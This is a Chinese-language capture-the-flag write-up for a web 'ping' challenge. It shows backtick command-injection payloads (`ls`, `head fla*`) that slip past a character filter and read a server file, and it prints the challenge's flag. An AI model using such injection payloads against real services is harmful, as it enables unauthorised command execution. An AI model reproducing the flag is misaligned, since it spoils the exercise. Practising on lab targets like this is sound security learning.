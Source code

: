 # inndy web ping
* [題目網址](https://hackme.inndy.tw/ping/)
1. 題目擋掉了一些字串，如果打了那些就會跳出 ... not allowed，而且字數小於 15，要在 exec("ping -c 1 \"{$ip}\" 2>&1", $ret); 這句之中成功 command injection
2. 既然不能用 " 和 ; 來合起雙引號並且打新命令，那只好在裡面直接執行指令。在 linux 指令中，被包在反引號裡面的命令會先被執行完之後，把結果傳出來放在原本的命令中
```
如果輸入 `ls`:
實際上執行的命令: ping -c 1 "`ls`" 2>&1
它會先把 ls 的結果傳回來放在指令中，然後才執行 ping，所以假設 ls 的結果為 file1 file2 file3，那就會變成 ping -c 1 "file1 file2 file3" 2&>1，但是因為沒有這個 IP，所以 ping 不了，但是還是會回傳我們打過的指令

結果回傳了
ping: flag.php
index.php: Name or service not known
```
3. 看來就是 flag.php 了，那要知道裡面的內容，有很多方法，如:cat, strings, head, tail，但是 cat 和 g 都被過濾掉了，所以只能用 head, tail。但是 flag 也被過濾了，所以可以使用萬用字元 *，輸入 fla*，會把開頭為 fla 的全都取出來
```
輸入: `head fla*`
回傳結果: 
ping: <?php
$flag = 'FLAG{ping_$(capture-the-flag)_UtUbtnvY5F9Hn5dR}';: Name or service not known
```